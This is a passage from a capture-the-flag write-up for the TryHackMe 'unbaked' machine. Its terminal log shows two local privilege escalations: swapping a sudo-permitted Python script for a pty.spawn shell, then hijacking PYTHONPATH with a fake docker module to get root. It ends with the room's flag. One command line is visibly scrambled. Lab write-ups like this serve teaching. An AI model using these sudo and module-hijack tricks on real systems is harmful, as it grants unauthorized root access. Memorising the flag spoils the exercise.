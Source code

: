 ```bash
			1. Calculator
			2. Easy Calculator
			3. Credits
			4. Exit
			----------------------------
			Enter Options >> 
```



```bash
ramsey@unbaked:~$ cat > /home/ramsey/vuln2.py << EOF
> #!/usr/bin/python
> import pty
> pty.spawn('/bin/bash')
> EOF
ramsey@unbaked:~$ mv vuln.py vuln.bak
ramsey@unbaked:~$ cp vuln2.py vuln.py 
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
oliver@unbaked:~$ pwd
/home/ramsey
oliver@unbaked:~$ cd ..
oliver@unbaked:/home$ cd oliver
oliver@unbaked:/home/oliver$ ls -lah
total 24K
drwxr-xr-x 3 oliver oliver 4.0K Oct  3  2020 .
drwxr-xr-x 4 root   root   4.0K Oct  3  2020 ..
-rw------- 1 root   root      1 Oct  5  2020 .bash_history
-rw-r--r-- 1 oliver oliver 3.7K Oct  3  2020 .bashrc
drwxrwxr-x 2 oliver oliver 4.0K Oct  3  2020 .nano
-rw-r--r-- 1 oliver oliver  655 Oct  3  2020 .profile
oliver@unbaked:/home/oliver$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
oliver@unbaked:/home/oliver$ ls -l /opt/dockerScript.py 
-rwxr-x--- 1 root sysadmin 290 Oct  3  2020 /opt/dockerScript.py
oliver@unbaked:/home/oliver$ cat /opt/dockerScript.py 
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
oliver@unbaked:/home/oliver$ cat > /home/oliver/docker.py << EOF
> import pty
> pty.spawn('/bin/bash')
> EOF
ockerScript.py:/home/oliver$ sudo PYTHONPATH=/home/oliver /usr/bin/python /opt/d 
root@unbaked:/home/oliver# id
uid=0(root) gid=0(root) groups=0(root)
root@unbaked:/home/oliver# cat /root/root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{1ff4c893b3d8830c1e188a3728e90a5f}
root@unbaked:/home/oliver# 
```